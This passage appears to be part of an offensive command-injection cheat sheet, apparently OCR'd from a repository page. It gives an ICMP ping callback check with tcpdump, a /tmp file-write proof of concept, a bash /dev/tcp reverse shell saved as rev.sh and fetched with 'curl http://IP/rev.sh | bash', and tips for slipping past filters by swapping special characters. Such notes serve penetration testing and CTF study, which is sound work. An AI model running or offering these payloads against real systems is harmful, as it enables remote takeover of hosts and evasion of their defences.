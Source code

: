     Second way is setup a tcpdump listen on whichever 
    network interface you are connected to your target,
    capture only icmp packets
    and put your payload as
    ```
    ping YOUR_IP -c 1
    ```
    A valid respond should look like:
    ```
    # tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
    08:55:30.741476 IP TARGET_IP > YOUR_IP: ICMP echo request, id 1, seq 1, length 64
    08:55:30.741652 IP YOUR_IP > TARGET_IP: ICMP echo reply, id 1, seq 1, length 64
    ```

2. You have access to host already, 
    but you need to priv esc as someone else via an internal running application
    
    Except the above PoC technique, you can use the following payload:
    ```
    echo "pwn3d" > /tmp/pwn
    ```
    A valid respond should be a new file is created at /tmp named pwn. 
    Also check the file permission and ownership with `ls -la` to see if 
    the file is owned the by process owner

### Execute reverse shell payload alternative
If you can't execute the reverse shell payload directly 
(maybe some sort of fiilters or firewall rules exist and preventing command injection payload),
try saving you payload into a script file and serving your payload through a http server. 
An example payload `rev.sh` will be like
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
Then on the server side, use `curl http://IP/rev.sh | bash` 
or similar tool as your injection payload.

### Command injection payload with firewall evasion
Sometimes an application might have firewall or defences in-place as a filter,
it means some special characters might be blocked.
Common command injection special characters are `;"|'&$`

If you found that an application consist of a firewall/defence,
try and see which characters are banned and which are not.
Sometimes it allows `'` but not `"`, vice versa.
Sometimes it allows `;` but not `|`, vice versa.

To test the banned characters, you can try changing the `'` in your 
original payload to `"` and see if it can get through the filter.
This can also apply to all special characters.
Let's say if `;` is blocked, then you may try `|`, `||`, `&&`, etc.
